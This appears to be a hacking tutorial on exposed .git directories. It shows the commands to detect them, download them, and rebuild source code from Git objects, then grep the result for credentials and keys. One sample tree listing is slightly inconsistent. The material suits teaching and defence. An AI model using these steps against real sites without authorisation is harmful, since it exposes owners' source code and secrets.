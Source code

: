 ```yaml
---
title: "Hacking Git Directories"
categories:
  - Hacking
---
```


How to reconstruct source code from an exposed .git directory.

When attacking an application, obtaining the application's source code can be extremely helpful for constructing an exploit. This is because some bugs, like SQL injections, are way easier to find using static code analysis compared to black-box testing.

Obtaining an application's source also often means getting a hold of developer comments, hardcoded API keys, and other sensitive data. So the source code of an application should always be protected from public view.

## Finding .git directory information leaks

A way that applications accidentally expose source code to the public is through an exposed .git directory.

When a developer uses Git to version control a project's source code, a git directory (located at project.com/.git) is used to store all the version control information of the project, including the commit history of project files. Normally, the .git folder should not be accessible to the public. But sometimes the .git folder is accidentally made available, and this is when information leaks happen.

To check if an application's .git folder is exposed, simply go to the application's root directory, for example project.com, and add /.git to the URL. There are three possibilities that can happen when you browse to the /.git directory:

-   If you get a 404 error, this means that the .git directory of the application is not made available to the public, and you won't be able to leak information this way.
-   If you get a 403 error, the .git directory is available on the server, but you won't be able to directly access the folder's root, and therefore will not be able to list all the files contained in the directory.
-   If you don't get an error and the server responds with the document tree of the .git directory, you can directly browse the folder's contents and retrieve any information contained in it.

## Reconstructing project source from .git directory

If directory listing is enabled, an attacker can simply browse through the files and retrieve the leaked information. She can also use the wget command in recursive mode (-r) to mass-download the contents of the directory.

```bash
> wget -r project.com/.git
```

But if directory listing is not enabled and the directory's files are not shown, there are still ways for an attacker to reconstruct the entire .git directory. To understand how this is done, we must first understand the structure of .git directories.

### .git directory structure

The .git directory is laid out in a specific way. When you execute the command:

```bash
> ls .git
```

In the command line, you would probably see this:

```
COMMIT_EDITMSG HEAD branches config description hooks index info logs objects refs
```

Here are a few standard files and folders in the .git directory that is important in reconstructing the project's source.

-   The /objects folder

The /objects directory is used to store Git objects. This directory contains additional folders that each have two character names. These subdirectories are named after the first two characters of the SHA1 hash of the git objects stored in it.

Within these subdirectories, there are files named after the SHA1 hash of the git object stored in it.

For example, the command below will return a list of folders:

```bash
> ls .git/objects
00 0a 14 5a 64 6e 82 8c 96 a0 aa b4 be c8 d2 dc e6 f0 fa info pack
```

And this command will reveal the git objects stored in that particular folder:

```bash
> ls .git/objects/0a
082f2656a655c8b0a87956c7bcdc93dfda23f8 4a1ee2f3a3d406411a72e1bea63507560092bd 
66452433322af3d319a377415a890c70bbd263 8c20ea4482c6d2b0c9cdaf73d4b05c2c8c44e9 
ee44c60c73c5a622bb1733338d3fa964b333f0 0ec99d617a7b78c5466daa1e6317cbd8ee07cc 
52113e4f248648117bc4511da04dd4634e6753 72e6850ef963c6aeee4121d38cf9de773865d8
```

Git objects are stored in /objects according to the first two characters of their SHA1 hash. For example, the Git object with a hash of 0a082f2656a655c8b0a87956c7bcdc93dfda23f8 will be stored with the file name of 082f2656a655c8b0a87956c7bcdc93dfda23f8 in the directory .git/objects/0a.

Git stores different types of objects in .git/objects. An object stored here could either be a commit, a tree, a blob, and an annotated tag. You can determine the type of an object by using the command:

```bash
> git cat-file -t OBJECT-HASH
```

Commit objects store information about the commit's directory tree object hash, parent commit, author, committer, date, and message of a commit. Tree objects contain the directory listings for commits. Blob objects contain copies of files that were committed (read: actual source code!). Whereas tag objects contain information about tagged objects and their associated tag names.

You can display the file associated with a Git object by using the command:

```bash
> git cat-file -p OBJECT-HASH
```

-   The /config file is the Git configuration file for the project.
-   The /HEAD file is a file that contains a reference to the current branch.

```bash
> cat .git/HEAD\
ref: refs/heads/master
```

### Confirming that files are accessible

If you are not able to access the .git directory listing, you'll need to confirm that the folder's contents are indeed available to the public. You can do this by trying to access the config file of the .git directory.

```bash
> curl https://project.com/.git/config
```

If this file is accessible, you might be able to download the entire contents of the .git directory.

### Downloading the files

If you cannot access the /.git folder's directory listing, you have to download each file you want instead of recursively downloading from the directory root.

But how do you find out which files on the server are available when object files have complex paths such as ".git/objects/0a/72e6850ef963c6aeee4121d38cf9de773865d8"?

You start with file paths that you already know exist, like ".git/HEAD"! Reading this file will give you a reference to the current branch (for example, .git/refs/heads/master) that you can use to find more files on the system.

```bash
> cat .git/HEAD
ref: refs/heads/master
> cat .git/refs/heads/master
0a66452433322af3d319a377415a890c70bbd263
> git cat-file -t 0a66452433322af3d319a377415a890c70bbd263
commit\
> git cat-file -p 0a66452433322af3d319a377415a890c70bbd263
tree 0a72e6850ef963c6aeee4121d38cf9de773865d8
```

The .git/refs/heads/master file will point you to the corresponding object hash that stores the directory tree of the commit. From there, you can see that the object is a commit and is associated with a tree object, 0a72e6850ef963c6aeee4121d38cf9de773865d8.

Now when you examine the tree object stored at 0a72e6850ef963c6aeee4121d38cf9de773865d8:

```bash
> git cat-file -p 0a72e6850ef963c6aeee4121d38cf9de773865d8
100644 blob 6ad5fb6b9a351a77c396b5f1163cc3b0abcde895 .gitignore
040000 blob 4b66088945aab8b967da07ddd8d3cf8c47a3f53c source.py
040000 blob 9a3227dca45b3977423bb1296bbc312316c2aa0d README
040000 tree 3b1127d12ee43977423bb1296b8900a316c2ee32 resources
```

Bingo! You discover some source code files and additional object trees to explore.

On a remote server, your requests to discovering the different files would look more like this:

```
https://project.com/.git/HEAD (to determine the HEAD)
https://project.com/.git/refs/heads/master (to find the object stored in that HEAD)
https://project.com/.git/objects/0a/72e6850ef963c6aeee4121d38cf9de773865d8 (to access the tree associated with the commit)
https://project.com/.git/objects/9a/3227dca45b3977423bb1296bbc312316c2aa0d (to download the source code stored in the README file)
```

On a remote server like this, you will need to decompress the downloaded object file before you read it. This can be done using Ruby:

```bash
ruby -rzlib -e 'print Zlib::Inflate.new.inflate(STDIN.read)' < OBJECT_FILE
```

### Finding useful information

After recovering the project's source code, you can grep for hardcoded credentials, encryption keys and developer comments for quick wins. You should also look for new and deprecated endpoints and record them for further analysis. If you have time, you can simply browse through the entire recovered codebase to find potential vulnerabilities. 
